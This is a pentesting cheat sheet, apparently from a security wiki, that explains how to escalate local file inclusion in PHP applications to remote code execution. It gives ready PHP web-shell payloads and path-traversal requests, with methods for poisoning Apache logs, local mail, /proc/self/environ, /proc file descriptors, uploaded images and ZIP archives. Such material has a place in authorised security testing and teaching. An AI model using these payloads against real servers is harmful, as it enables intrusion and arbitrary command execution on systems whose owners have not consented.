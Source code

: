 ## LFI2RCE

### Via Apache log file

If the Apache server is vulnerable to LFI inside the include function you could try to access to _**/var/log/apache2/access.log**_, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and execute code using the "c" GET parameter.

Note that **if you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "_**quote;**_", **PHP will throw an error** there and **nothing else will be executed**.

This could also be done in other logs but b**e carefull,** the code inside the logs could be URL encoded and this could destroy the Shell. The header **authorisation "basic"** contains "user:password" in Base64 and it is decoded inside the logs. The PHPShell could be inserted insithe this header.

### Via Email

Send a mail to a internal account \(user@localhost\) containing `<?php echo system($_REQUEST["cmd"]); ?>` and access to the mail _**/var/mail/USER&cmd=whoami**_

### Via /proc/\*/fd/\*

1. Upload a lot of shells \(for example : 100\)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process \(can be bruteforced\) and $FD the filedescriptor \(can be bruteforced too\)

### Via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```text
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via upload

If you can upload a file, just inject the shell payload in it \(e.g : `<?php system($_GET['c']); ?>` \).

```text
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

### Via Zip fie upload

Upload a ZIP file containing a PHP shell compressed and access:

```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
